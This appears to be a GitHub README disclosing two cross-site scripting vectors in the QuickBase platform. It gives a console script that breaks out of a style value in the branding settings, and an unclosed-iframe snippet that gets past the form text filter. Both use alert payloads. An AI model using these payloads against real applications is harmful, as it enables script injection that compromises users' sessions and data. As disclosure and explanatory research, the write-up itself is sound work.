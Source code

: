 #QuickBase XSS
This repository documents XSS injection vectors I've discovered in the QuickBase platform (http://www.quickbase.com).

##Branding Page Injection
This one requires admin privileges, so it isn't a major vulnerability. Why, then, is it interesting? *It allows arbitrary code to run application wide!*

#####How does it work?
Run the JavaScript below in your developer console while on the dashboard of the application you want to affect. It will issue a POST to the SaveAppSettingsBrandGuide action.

#####Why does it work?
QuickBase engineers only sanitized input client side on a value that gets inserted into every page in the application. Doh!

```
var DBID = "";
var REALM = "";
var SCRIPT = "alert('HELLO!');";
var TOKEN = $("[name=PageToken]").val();

$.ajax({
  url: "https://" + REALM + ".quickbase.com/db/" + DBID + "?a=SaveAppSettingsBrandGuide",
  type: "POST",
  data: {
    uiCustomTextColor: "</style><script>" + script + "</script><style>",
    PageToken: TOKEN,
    CustomHeader: "on",
    uiCustomHeaderOptions: "iBasic",
    apply: "Save"
  }
});
```

##Form Text Element Injection
Need to run some custom JavaScript on a QuickBase form? No problem!

#####How does it work?
Paste the snippet below into a QuickBase form text element and you're all set.

#####Why does it work?
This one works for two reasons:
1. Omiting the closing tag on the iframe element allows us to bypass the regex that QuickBase is presumably using to filter out unwanted text. 
2. Modern day rendering engines make an attempt to fix mistakes like unclosed tags.

```
<iframe src="javascript: alert('HELLO!')" style="display: none"
```
